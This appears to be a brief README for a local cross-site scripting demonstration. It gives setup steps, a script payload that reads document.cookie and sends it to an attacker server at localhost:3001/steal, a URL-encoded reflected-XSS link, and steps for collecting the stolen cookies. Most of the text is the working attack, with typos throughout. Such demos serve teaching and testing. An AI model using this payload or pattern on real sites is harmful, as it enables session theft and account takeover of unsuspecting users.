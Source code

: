   First of all, try to install node_modules: npm install
  Then run attacker and server: node attacker.js, node server.js
  Paste payload in server input field: 
  <script>
    const cookies = encodeURIComponent(document.cookie);
    new Image().src = `http://localhost:3001/steal?cookie=${cookies}`;
  </script>

   You will see link to website like:
   http://localhost:3000/search?query=%3Cscript%3Enew%20Image().src%3D%22http%3A%2F%2Flocalhost%3A3001%2Fsteal%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E
   Open true link at incognito mode to get coockie, then open malicious link in this incognito mode rowser, then go to console of atckker and look at stolen coockies.
